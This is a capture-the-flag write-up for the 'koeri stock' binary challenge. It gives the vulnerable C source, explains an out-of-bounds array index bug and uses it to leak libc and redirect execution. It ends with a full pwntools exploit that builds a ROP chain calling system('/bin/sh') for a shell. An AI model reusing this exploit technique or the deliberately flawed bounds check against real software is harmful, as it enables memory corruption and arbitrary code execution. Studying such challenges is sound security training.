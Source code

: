 This chall has 17 solves durning the competition.
We are given the source code in this chall aswell:

```c
#include <stddef.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>

#define ALARM_SECONDS 60

void be_a_ctf_challenge() {
    alarm(ALARM_SECONDS);
    setvbuf(stdout, (char *)0x0, 2, 1);
}

void koeri_choice(int data[7], int add) {
    int koeri_choice;
    int amount;
    int max_koeri = sizeof(*data) * sizeof(int);
    puts("Which kœri to add?");
    puts("[0] Sauce [1-6] Spice N");
    scanf("%d", &koeri_choice);
    if (koeri_choice < max_koeri) {
        puts("Amount");
        scanf("%d", &amount);
        if (add) {
            data[koeri_choice] += amount;
        } else {
            data[koeri_choice] -= amount;
            if (data[koeri_choice] < 0) {
                printf("Error, %d is an illegal value! Resetting to zero. Recount!\n",
                        data[koeri_choice]);
                data[koeri_choice] = 0;

            }
        }
    }
    else {
        puts("We do not have that kœri, yet");
    }
}

void print_stock(int data[7]) {
    for (int i = 0; i < 7; i++) {
        if (i == 0) {
            printf("Kœri sauce: %d\n", data[i]);
        }
        else {
            printf("Kœri spice no. %d: %d\n", i, data[i]);
        }
    }
}

int main(int argc, char** argv) {
    be_a_ctf_challenge();
    int choice;
    int data[7] = {0};
    while (1) {
        puts("[1] Add kœri to stock [2] Subtract kœri to stock\n[3] Print kœri stock [4] Exit");
        scanf("%d", &choice);
        if (choice == 1) {
            koeri_choice(data, 1);
        } else if (choice == 2) {
            koeri_choice(data, 0);
        } else if (choice == 3) {
            print_stock(data);
        } else if (choice == 4) {
            puts("Exiting...");
            break;
        } else {
            puts("Invalid choice");
        }
    }
    return 0;
}

```

The bug here is inside the `koeri_choice` function.
when we enter index, it only checks if `index < sizeof(*data) * sizeof(int)`. but index will be an index in the array of size 7, and the left side of the equation will be the size of the array in memory. which is 7*8. so we have an oob here.
We can basiclly add anything we want to the RIP/RBP, and with the subtract option, if `data[index] - amount < 0`, it will give us a leak.
So first of all, lets leak libc.
we can do it by using our Out-Of-Bounds primitive, and subtract a really big number from main's return pointe, which is index 14 in the array (its a libc address, and it will not interrupt the execution until the program ends)
the lower 4 bytes of main's return pointer is already negative, so we can basiclly do `subtract(14, 0)`, and get the lower bytes.
To get the most siginifcant bytes, we can subtract a really big number, leak the value, and add the number to cancel the subtraction:
```py
	libc_lower = 0xffffffff + substract(14, 0)+ 1
	libc_upper = (0xffffffff + substract(15, 0x10000000) + 1 + 0x10000000) & 0xffffffff
	libc.address = ((libc_upper << 32) + libc_lower)- 0x23510
  ```
  
  now, we'll use the same primitive to control code execution.
  since we don't have a PIE leak, we can't really do a ret2libc, because we would need to change the function's return ptr, which is a binary address we don't know.
  But, we CAN jump to any gadget inside the binary. the offsets of addresses are constant, so `koeri_choice_ret_addr - some_gadget` = constant. this means we can add this constant to the return ptr, and jump to our gadget.
  In my exploit, I used an `add rsp, 0x20 ; pop rbp ; ret` gadget, to pivot our stack. in fact, the add rsp; pop, is enough to make rsp be inside our `data` buffer. then we have a complete libc rop chain.
  (I zeroed our the values in the array, using `substract(index, 0x10000000)`, and the nadded our addresses.)
  
  Full exploit:
  
  ```py
 from pwn import *


libc = ELF('./libc.so.6')
#p = remote('koeri-stock-0.chals.kitctf.de', 1337, ssl=True)
p = gdb.debug('./main')
libc_rop = ROP(libc)

def add(idx, amount):
	p.recvuntil('Exit')
	p.sendline('1')
	p.recvuntil("Spice N")
	p.sendline(str(idx))
	p.recvline()
	p.sendline(str(amount))


def substract(idx, amount):
	(p.recvuntil('Exit\n'))
	p.sendline('2')
	(p.recvuntil("Spice N"))
	p.sendline(str(idx))
	(p.recvline())
	p.sendline(str(amount))
	(p.recvline())
	res = p.recvline()
	if b'Error' in res:
		res = res.replace(b' is an illegal value! Resetting to zero. Recount!\n', b'').replace(b'Error, ', b'')
		return int(res)
	return None

def add_rop_address(index, addr):
	#zero out the array elements

	substract(index, 0x10000000)
	substract(index+1, 0x10000000)

	#add the addreeses
	add(index, addr & 0xffffffff)
	add(index+1, (addr >> 32))


def main():

	libc_lower = 0xffffffff + substract(14, 0)+ 1

	libc_upper = (0xffffffff + substract(15, 0x10000000) + 1 + 0x10000000) & 0xffffffff

	libc.address = ((libc_upper << 32) + libc_lower)- 0x23510


	POPRDI = libc.address + (libc_rop.find_gadget(['pop rdi', 'ret']))[0]
	RET = libc.address + (libc_rop.find_gadget(['ret']))[0]
	SYSTEM = libc.sym["system"]
	BINSH = next(libc.search(b"/bin/sh"))

	print("Libc address is", hex(libc.address))
	print("POPRDI address is", hex(POPRDI))
	print("SYSTEM address is", hex(SYSTEM))
	print("BINSH address is", hex(BINSH))


	add_rop_address(2, RET)
	add_rop_address(4, POPRDI)
	add_rop_address(6, BINSH)
	add_rop_address(8, SYSTEM)

	#this gadget will move the stack inside the data array, which will give us a complete rop chain

	fake_stack_gadget = 0x12e0 # add rsp, 0x20 ; pop rbp ; ret
	koeri_choice_ret = 0x13de

	add(-10, (fake_stack_gadget - koeri_choice_ret)) #we don't need PIE leak here, because we can just add a constant address from one instruction to another
	p.interactive()


main()
```
  
